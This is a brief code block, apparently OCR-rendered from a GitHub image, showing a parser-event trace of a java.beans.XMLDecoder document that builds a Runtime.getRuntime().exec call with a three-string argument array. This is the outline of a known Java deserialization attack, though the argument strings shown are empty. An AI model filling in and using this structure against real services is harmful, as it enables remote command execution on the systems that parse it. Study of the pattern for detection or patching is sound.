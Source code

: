 ```xml
startDocument()
startElement()
version="1.8.0_66"
class="java.beans.XMLDecoder"
characters()
startElement()
class="java.lang.Runtime"
method="getRuntime"
characters()
startElement()
method="exec"
characters()
startElement()
class="java.lang.String"
length="3"
characters()
startElement()
index="0"
characters()
startElement()
characters()
endElement()
string
characters()
endElement()
void
characters()
startElement()
index="1"
characters()
startElement()
characters()
endElement()
string
characters()
endElement()
void
characters()
startElement()
index="2"
characters()
startElement()
characters()
endElement()
string
characters()
endElement()
void
characters()
endElement()
array
characters()
endElement()
void
characters()
endElement()
object
characters()
endElement()
java
endDocument()
```
